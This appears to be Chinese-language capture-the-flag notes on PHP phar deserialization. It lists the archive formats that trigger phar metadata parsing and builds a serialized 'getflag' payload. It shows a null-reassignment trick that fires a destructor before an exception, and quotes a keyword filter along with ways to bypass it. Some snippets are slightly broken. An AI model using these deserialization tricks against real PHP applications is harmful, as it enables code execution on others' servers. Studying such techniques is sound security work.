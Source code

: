 一共就这5种可以触发phar的操作

> 普通phar
> gzip
> bzip2
> tar
> zip

## 第三关 `throw new Error('那么就从这里开始吧');`

https://www.php.net/manual/zh/phar.fileformat.php

```php
<?php
class getflag{
    function __destruct() {
        echo 123;
    }
}

file_get_contents('phar//xen.phar');
```
cmd执行, 是可以输出123的。

`php /User/exp/2.php`

对应本题

```php
<?php
class getflag{
}
$a= new getflag();
$c = [$a];
echo serialize($c);
file_put_contents('.phar/.metadata', serialize($c));
```
得到 `a:1:{i:0;O:7:"getflag":0:{}}` , 通过第一关的学习。将元素1重新赋值为null，由于反序列化是从左到右的。立即可执行反序列化，不会直接throw。

> a:1:{i:0;O:7:"getflag":0:{}}
> a:1:{i:0;O:7:"getflag":0:{};i:0;N;}

其他思路
* file_put_contents 数组绕过
* 可以抛弃的签名

```php
<?php

$a = [
    0 => 2,
    1 => 'getflag'
]

if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
    die('我知道你想干吗，我的建议是不要那样做');
}

file_put_contents("aaa", $a);
```
